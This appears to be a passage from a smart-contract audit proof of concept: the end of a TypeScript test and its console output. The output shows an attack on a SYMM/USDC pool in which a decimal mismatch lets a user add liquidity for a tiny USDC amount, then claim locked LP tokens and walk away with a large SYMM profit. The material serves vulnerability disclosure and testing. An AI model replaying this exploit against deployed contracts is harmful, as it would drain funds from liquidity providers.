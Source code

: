 ```tsx
				expect(userUsdcBalanceAfter).to.be.gt(userUsdcBalanceBefore)
				expect(totalProfitInUsdcTerms).to.be.gt(0)
				expect(Number(totalProfitInUsdcTerms) / Number(usdcSpent)).to.be.gt(1)
			} else {
				
				// The LP tokens themselves have a value far greater than the USDC spent
				const lpValue = (userLpBalance * BigInt(usdcBalanceBefore)) / (await poolContract.totalSupply())
				console.log("Value of LP tokens held:           ", lpValue.toString())
				expect(lpValue).to.be.gt(usdcSpent)
			}
		})
```

Output:

```bash
--------- ATTACK START ---------
Pool SYMM Balance:                  103263163092624438476
Pool USDC Balance:                  1150580000000000000
Correct USDC required:              557110573384217816
Quoted USDC required:               557111
Ratio (correct/quoted):             999999234235.5792
User USDC balance before:           1000000000

----- STEP 1: Add Liquidity -----
USDC spent on liquidity:            557111
LP tokens locked in vesting:        20339731063392822787
Penalty receiver LP before:         0

----- STEP 2: Claim Locked LP Tokens with Penalty -----
Using claimLockedTokenByPercentage to claim 100% of locked tokens
LP tokens received (after penalty):  10169866058187877729
LP tokens sent to penalty receiver: 10169865005204945058
Penalty percentage:                 50.00%

----- ATTACK RESULTS -----
Initial USDC balance:               1000000000
Final USDC balance:                 999442889
USDC delta:                         -557111
Initial SYMM balance:               0
Final SYMM balance:                 171969435871056241426
SYMM delta:                         171969435871056241426

----- ECONOMIC ANALYSIS -----
USDC spent on deposit:              557111
SYMM delta value in USDC terms:     1916119820453692357
Total profit in USDC terms:         1916119820453135246
Profit multiplier:                  3439386083658.616

```
